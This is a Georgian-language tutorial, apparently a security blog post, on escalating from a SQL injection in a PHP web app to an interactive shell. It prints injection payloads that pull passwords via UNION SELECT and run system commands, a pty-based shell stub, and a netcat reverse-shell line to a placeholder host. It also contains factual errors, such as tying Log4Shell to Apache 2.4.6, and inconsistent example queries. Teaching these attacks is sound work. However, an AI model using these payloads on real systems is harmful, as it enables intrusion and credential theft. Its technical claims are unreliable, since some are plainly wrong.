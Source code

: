 ```yaml
---
title: "HTTP-დან Shell-ში"
date: 2024-11-07 11:07:00 +0400
categories: [CyberSecurity, Guides]
tags: [Explanation]
---
```


## პროტოკოლის ახსნა

`HTTP(HyperText Transfer Protocol` არის `Layer 7` პროტოკოლი, ანუ `Application Layer` პროტოკოლი. ეს ნიშნავს, იმას, რომ ამ პროტოკოლს სჭირდება სხვა პროტოკოლები იმისთვის, რომ გამართულად იმუშაოს. ესენია: `IP` და `TCP`.

#### როგორ იზღუდება `HTTP`

`HTTP` არ არის ისეთი პროტოკოლი, საიდანაც რეალურ დროში კომუნიკაცია შეიძლება. ანუ, `HTTP`-ს გამოყენების დროს, კავშირი მაშინ წყდება, როდესაც გასაგზავნი ინფორმაცია იწურება. ეს შეიძლება იყოს `.html`, `.css`, `.js` ფაილები, ფოტოები, ვიდეოები და ა.შ.

სოკეტებისგან განსხვავებით, აქ არ გვაქვს ორმხრივი კომუნიკაციის შესაძლებლობა. სწორედ ამის გამოა შეუძლებელი `interactive shell`-ის მიღება `HTTP`-დან. მაგრამ, რა ხდება მაშინ, როდესაც `HTTP`-დან ვიღებთ `Shell`-ზე წვდომას?

## ვებ სერვერები

ვებ სერვერების მოწყვლადობა ორი რამ შეიძლება იყოს:

1. აპლიკაცია(ReactJS, NextJS, PHP Laravel)
2. თვითონ სერვერი(Nginx, Apache)

არსებობს უამრავი CVE, რომლის PoC(Proof of Concept) კოდის მორგებაც შესაძლებელია ვებ სერვერზე, რის შედეგადაც `Shell`-ის მიღება შეიძლება.

მაგალითად, `Apache 2.4.6` ვერსიაზე შესაძლებელი იყო ე.წ. `Log4Shell` ექსპლოიტის გამოყენება. ამ პრობლემას `Java`-ს `Logging` ბიბლიოთეკა, `Log4J` იწვევდა. რა თქმა უნდა, ეს პრობლემა მოგვარდა, მაგრამ უამრავი ვებ სერვერი დღემდე მოწყვლადია და შესაძლოა ემსხვერპლონ კიდეც ამ პრობლემას.

მოკლედ, რაც შეეხება თვითონ აპლიკაციას, შესაძლოა დეველოპერს დაავიწყდა მომხმარებლის მიერ შეყვანილი ინფორმაციის ვალიდაცია და ის პირდაპირ `SQL Query`-ში მიაქვს. ამან შესაძლოა `SQLi(SQL Injection)` გამოიწვიოს. მაგალითად:

```php
$search_data = $_POST['username'];

$sql_query = 'SELECT phone FROM Users WHERE Users.username = "' . $search_data . '"';
```

აქ საკმაოდ დიდია იმის რისკი, რომ `SQLi` მოხდება. `$sql_query`-ს ანალიზით, დადგინდება, რომ თუ მომხმარებელი შეიყვანს `Bob`-ს, ასეთი გამოვა `SQL Query`:

```sql
SELECT phone FROM Users WHERE Users.username = "Bob"
```

მაგრამ, რა მოხდება მაშინ თუ მომხმარებელი დაწერს ამას:

```sql
" OR 1=1--
```

მოხდება კატასტროფა:

```sql
SELECT phone, email 
FROM Users WHERE Users.username = "" OR 1=1--"
```

ეს უკვე `SQL` ინექციაა. რა თქმა უნდა, შესაძლებელია კრიტიკული ინფორმაციის მოპარვა:

```sql
" ORDER BY X
```

აქ `X` იქნება რიცხვი. ამით ჰაკერი დაადგენს თუ რამდენი `column` ბრუნდება მონაცემთა ბაზიდან. მაგალითად, აქ ორი `column` ბრუნდება, და ორივე `string` ტიპის მონაცემია. აქედან გამომდინარე, ჰაკერს შეუძლია ორი რამ წამოიღოს ბაზიდან ერთდროულად:

```sql
" UNION SELECT password, NULL FROM Users--
```

ეს არის ე.წ. `UNION` ტიპის შეტევა. ასეთი გამოდის საბოლოო სკრიპტი:

```sql
SELECT phone, email 
FROM Users 
WHERE Users.username = "" 
UNION SELECT password, NULL 
FROM Users--"
```

ეს უკვე აპლიკაციის ბრალია და არა თვითონ ვებ სერვერის. ასევე, რა თქმა უნდა, ვებ სერვერს წინ `WAF` უნდა იყოს დაყენებული, რათა ასეთი ტიპის შეტევები დაბლოკოს.

## SQL shell?

რა თქმა უნდა, `SQL` ენიდან შესაძლებელია `Shell`-ში გადასვლა. მაგალითად, განვიხილოთ იგივე პრობლემა, მაგრამ ამჯერად `SQL` სერვერს აქვს ერთი დიდი პრობლემა: დეველოპერს დაავიწყდა იმ ფუნქციების გამორთვა, რომლებიც `Shell`-ში ბრძანებების გაშვების საშუალებას გვაძლევს.

შესაძლოა `payload` იყოს ასეთი:

```sql
" UNION SELECT system('uname -r'), NULL--
```

ეს წამოიღებს კერნელის ვერსიას. კერნელის ვერსიიდან გამომდინარე უკვე შესაძლებელი იქნება პრივილეგიის ესკალაციისათვის შესაბამისი ზომების მიღება. ანუ, თუ `SQL` სერვერმა მაინც სტანდარტული მომხმარებელი აჩუქა ჰაკერს, ჰაკერი შეძლებს `root` მომხმარებელზე წვდომის მოპოვებას(ეს ძალიან ზოგადი მაგალითია).

როგორ მოთავსდება `payload` ზემოთ მოყვანილ მაგალითში?

```sql
SELECT phone, email 
FROM Users 
WHERE Users.username =  "" 
UNION SELECT system('uname -r'), NULL FROM Users--"
```

ამის შემდეგ, ჰაკერს `output` ფრონტზე მიუვა. თუ ფრონტზე არ გამოჩნდა, მაშინ ის პროქსიდან დაინახავს პასუხს, როგორიცაა `Burpsuite`.

## ისე კარგად მაინც ვერ ვართ...

ჰაკერმა თავი ისე უნდა იგრძნოს, როგორც თევზი გრძნობს თავს წყალში. მაგრამ ეს შეუძლებელი იქნება თუ `Shell` არ იქნება `Interactive` და არ იქნება კომფორტი.

ამის გამო, ჰაკერს სჭირდება ახალი მეთოდი, რათა `Shell` მიიღოს. ეს დიდ პრობლემას არ წარმოადგენს. შესაძლებელია მან პითონის სკრიპტი დაწეროს, რომელიც `/bin/bash` პროცესს შექმნის და მის `STDIN`, `STDOUT` და `STDERR`-ს სოკეტს მიაბამს:

```python
import pty
import socket

# კოდი

pty.spawn("/bin/bash")

# კიდევ უფრო მეტი კოდი
# კიდევ უფრო მეტი კოდი
```

რაღაც მსგავსის აწყობა შეიძლება. შემდეგ, ამ ფაილს `wget` ან `curl` ბრძანებით ატვირთავს სერვერზე და გაუშვებს მას.

ლინუქსის `process management`-დან გამომდინარე, `explt.py` პროცესიდან დაიფორკება(Fork) ახალი პროცესი, რომელიც იქნება `/bin/bash`. მისი `STDIN` და `STDOUT` მიებმება სოკეტს, ხოლო ისიც შესაძლებელია, რომ `STDERR` წავიდეს `/dev/null`-ში, რათა პრობლემები სერვერის ადმინისტრატორისთვის კიდევ უფრო შეუმჩნეველი გახდეს.

#### განახლების მიღება

სოკეტიდან წამოსულ `Shell`-ს როდესაც დაიჭერს ჰაკერი, მას ექნება ყველაფრის შესაძლებლობა. პითონი რომც არ გამოიყენოს, ძალიან მარტივადაა შესაძლებელი ამის გაკეთება:

```bash
nc <IP> <PORT> -e /bin/bash&
```

ასე მიიღებს ჰაკერი ახალ "ნიჟარას" `SQL`-დან.

## მორალი

იმის თქმა, რომ მხოლოდ `Nginx` ან `Apache` იწვევს პრობლემას სიცრუეა. კარგად უნდა დააკვირდეს დეველოპერი კოდს და ყველა შესაძლო გადაცდომა უნდა აღმოაჩინოს. ზემოთ მოყვანილ მაგალითში, მომხმარებლისგან მიღებული ინფორმაცია პირდაპირ ჯდება `SQL query`-ში და ეს იწვევს მთავარ პრობლემას.

რა თქმა უნდა, უამრავი სხვა მეთოდი არსებობს, `HTTP`-დან `Shell`-ის მისაღებად, მაგრამ `SQLi` ერთ-ერთი საუკეთესო თემაა, ამ ყველაფრის მარტივად ასახსნელად.
